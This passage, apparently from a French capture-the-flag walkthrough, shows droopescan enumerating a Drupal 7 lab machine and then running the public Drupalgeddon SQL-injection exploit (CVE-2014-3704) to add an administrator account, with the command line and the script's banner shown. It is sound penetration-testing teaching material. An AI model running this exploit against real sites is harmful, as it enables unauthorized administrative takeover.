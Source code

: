 ```console
$ droopescan scan drupal -u http://192.168.56.128/
[+] Plugins found:                                                              
    ctools http://192.168.56.128/sites/all/modules/ctools/
        http://192.168.56.128/sites/all/modules/ctools/LICENSE.txt
        http://192.168.56.128/sites/all/modules/ctools/API.txt
    views http://192.168.56.128/sites/all/modules/views/
        http://192.168.56.128/sites/all/modules/views/README.txt
        http://192.168.56.128/sites/all/modules/views/LICENSE.txt
    profile http://192.168.56.128/modules/profile/
    php http://192.168.56.128/modules/php/
    image http://192.168.56.128/modules/image/

[+] Themes found:
    seven http://192.168.56.128/themes/seven/
    garland http://192.168.56.128/themes/garland/

[+] Possible version(s):
    7.22
    7.23
    7.24
    7.25
    7.26

[+] Possible interesting urls found:
    Default admin - http://192.168.56.128/user/login

[+] Scan finished (0:09:32.101066 elapsed)
```

Les versions 7 de Drupal ont été touchées par une vulnérabilité qui a été sobrement nommée _Drupalgeddon_. J'ai eu recours à l'exploit suivant qui rajoute un compte administrateur :

[Drupal 7.0 &lt; 7.31 - 'Drupalgeddon' SQL Injection (Add Admin User) - PHP webapps Exploit](https://www.exploit-db.com/exploits/34992)

```console
$ python drupalgeddon.py -t http://192.168.56.128/ -u devloop -p devloop

  ______                          __     _______  _______ _____    
 |   _  \ .----.--.--.-----.---.-|  |   |   _   ||   _   | _   |   
 |.  |   \|   _|  |  |  _  |  _  |  |   |___|   _|___|   |.|   |   
 |.  |    |__| |_____|   __|___._|__|      /   |___(__   `-|.  |   
 |:  1    /          |__|                 |   |  |:  1   | |:  |   
 |::.. . /                                |   |  |::.. . | |::.|   
 `------'                                 `---'  `-------' `---'   
  _______       __     ___       __            __   __             
 |   _   .-----|  |   |   .-----|__.-----.----|  |_|__.-----.-----.
 |   1___|  _  |  |   |.  |     |  |  -__|  __|   _|  |  _  |     |
 |____   |__   |__|   |.  |__|__|  |_____|____|____|__|_____|__|__|
 |:  1   |  |__|      |:  |    |___|                               
 |::.. . |            |::.|                                        
 `-------'            `---'                                        

                                 Drup4l => 7.0 <= 7.31 Sql-1nj3ct10n
                                              Admin 4cc0unt cr3at0r

                          Discovered by:

                          Stefan  Horst
                         (CVE-2014-3704)

                           Written by:

                         Claudio Viviani
```